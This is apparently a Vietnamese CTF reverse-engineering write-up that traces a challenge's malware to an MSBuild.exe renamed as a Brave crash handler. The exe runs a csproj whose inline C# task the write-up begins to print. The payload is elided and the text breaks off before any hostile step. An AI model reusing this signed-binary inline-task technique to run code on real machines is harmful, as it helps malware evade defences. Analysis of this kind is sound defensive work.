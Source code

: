 ```yaml
---
title: "[HOLACTF] i_love_malware"
description: "i love malware"
author: ngname
date: 2025-07-14 09:54 +0700
categories: [CTF, Reverse Engineering]
tags: [windows, malware analysis]
comments: true
pin: true
---
```




## Mô tả

**HOLACTF{C2domain}**

## Phân tích

Bài cho 3 file `BraveCrashHandler.csproj` `BraveCrashHandler.exe` `note.txt`. Kiểm tra trước file exe thì thấy có chữ kí số của microsoft, kiểm tra thêm thì biết file này có tên gốc là `MSBuild.exe` không độc hại, vậy vấn đề sẽ nằm ở 2 file còn lại

Trong `note.txt`

```
commandline: "C:\Program Files (x86)\BraveSoftware\CrashReports\BraveCrashHandler.exe" C:\Progra~2\BraveSoftware\CrashReports\BraveCrashHandler.csproj
```

Khi lên mạng tìm cách sử dụng `MSBuild.exe` thì biết được nó có thể dùng để build 1 file csproj, vậy file độc hại sẽ là `BraveCrashHandler.csproj`

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="BuildProject">
    <Project
      DataProject="...very long..."
      />
  </Target>
  <UsingTask
    TaskName="Project"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll" >
    <ParameterGroup>
      <DataProject ParameterType="System.String"
                   Required="true" />
    </ParameterGroup>
    <Task>
      <Reference Include="System.Runtime"/>
      <Code Type="Class"
            Language="cs">
        <![CDATA[
using System;
using System.Text;
using System.Runtime.InteropServices;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
using System.Security.Cryptography;
using System.Runtime.ExceptionServices;
public class Project : Task, ITask
{
    private string _DataProject;
    public virtual string DataProject
```